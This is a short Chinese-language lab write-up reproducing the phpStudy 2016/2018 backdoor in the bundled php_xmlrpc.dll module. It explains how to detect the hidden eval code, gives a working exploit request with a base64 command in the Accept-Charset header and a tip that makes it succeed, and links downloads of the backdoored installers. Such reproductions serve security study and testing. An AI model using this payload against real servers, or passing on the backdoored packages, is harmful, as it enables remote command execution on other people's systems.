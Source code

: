 # 0x00 软件介绍
phpstudy：流行的php集成部署环境

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：phpstudy 2018

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

后门代码存在于phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45中的\ext\php_xmlrpc.dll模块中，用记事本打开此文件，查找“@eval”，若文件存在“@eval(%s('%s'));”则存在后门，如下图  
![image](./0.png)  
下载并安装phpstudy 2018，按照提示下一步即可

# 0x03 利用条件
无

# 0x04 影响版本
phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

burp抓包，请求头中添加字段：Accept-Charset:ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7  
上述字符串是“echo system("net user");”base64编码后的字符串，结果如下图  
![image](./1.png)  
需要注意，发送的数据包头部中：Accept-Enconding:gzio, deflate有一处问题，deflate与前面的逗号之间有一个空格，需要手动删除，不然无法成功执行命令

# 0x06 踩坑记录
无

# 0x07 参考链接
无

# 注：我当时寻找有漏洞的版本花了好多时间，现将我寻找到有效版本分享给大家，漏洞环境大于25MB，不能上传到github中，使用百度云分享  
phpstudy2016分享，提取码：0fvo，链接：https://pan.baidu.com/s/1Alq8UzJzHDAMHcSBCGyIug  
phpstudy2018分享，提取码：ax63，链接：https://pan.baidu.com/s/16nxaucxBUpbhvO61V-Bu0g
